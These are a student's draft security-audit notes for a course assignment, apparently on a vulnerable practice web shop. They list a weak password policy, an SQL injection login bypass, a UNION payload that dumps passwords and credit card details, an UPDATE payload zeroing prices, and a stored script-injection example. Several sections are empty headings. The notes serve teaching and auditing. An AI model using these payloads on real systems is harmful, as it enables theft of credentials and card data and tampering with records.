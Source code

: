```yaml
---
title: "ass01-security-audit"
aliases: 
tags: 
- assignment
- comp210
---
```



Jet Hughes - 9474308

# Summary of system
- function
- technology

# Flaws
## Password policy
- must have at least 5 characters and one digit.
	- not suffiecient

## SQL Injection
- can log in to admin using username: " 'or 1=1;--"
- we are able to  extract data which is displayed as the users username
- we can extract the data from the data base using this "username"
	- ' union select group_concat(username||':'||password||':'||name||':'||credit_card_number||':'||credit_card_expiry||':'||credit_card_cvv) from user as name;--
	- I was able to crack 48 of the 101 passwords using the rockyou wordlist. I'm sure It would not be difficult to crack more.
- you cant also update the data. E.g., set the price of all products to zero using this as a username in the login box
	- '; update PRODUCT set UNIT_PRICE = 0 where 1=1;--

## Javascript Injection
- I could be possible to perform a javascript injection as the users name is displayed in the website. and prodcut information is displayed in the view catalogue page
- You could update a products name to be a script which would then run on others systems
- e.g. '; update PRODUCT set DESCRIPTION = '<script>alert("hello")</script>' where PRODUCT_ID = 67696;--

## Path traversal
## Network-Level security
## Other